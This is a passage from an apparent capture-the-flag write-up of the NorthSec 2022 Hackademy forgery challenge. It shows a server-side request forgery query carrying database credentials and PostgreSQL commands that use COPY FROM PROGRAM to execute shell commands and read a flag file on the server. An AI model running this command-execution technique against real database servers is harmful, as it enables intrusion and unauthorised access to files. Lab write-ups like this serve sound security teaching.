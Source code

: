 ![Server Side Request Forgery query](/will-hack-for-coffee/assets/images/nsec2022/ssrf-query.png)

Hmmm there is a table that looks interseting. Use that query to find the second flag:
````
user=postgres&password=Let%26me%3Din&query=SELECT * from flag.flag_25bb3839f80731bb
````

![Server Side Request Forgery 103](/will-hack-for-coffee/assets/images/nsec2022/ssrf103.png){:.centered}

In last year CTF, the flag was in a flag.txt located at the root folder so we lucked out getting it. This year this was fixed so I had to use remote command injection (reverse shell would have been even [better](https://erichogue.ca/2022/05/NorthSec/HackademyForgery#forgery-103---obtain-hrce-hackademy-recognized-certified-expert)!). It's well [explained](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) here and it work well even if the syntax is kinda weird (maybe disable this on your production server?). But instead of logging in the database you use the query to create the table, copy your command and execute them. You can use those as query to execute command on the server:
````
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'ls /';
SELECT * FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'cat /flag_is_in_here_549e82c591d5b622.txt';
SELECT * FROM cmd_exec;
````
Be mindful that since I didn't drop the table after each command, all the previous command output will also be listed:

![Postgresql remote command execution](/will-hack-for-coffee/assets/images/nsec2022/ssrf-rce.png)

Looking at the root folder I listed the flag and read it. Congratulation and enjoy your newly acquired Hackademy Certified Ethical Hacker (CEH)!

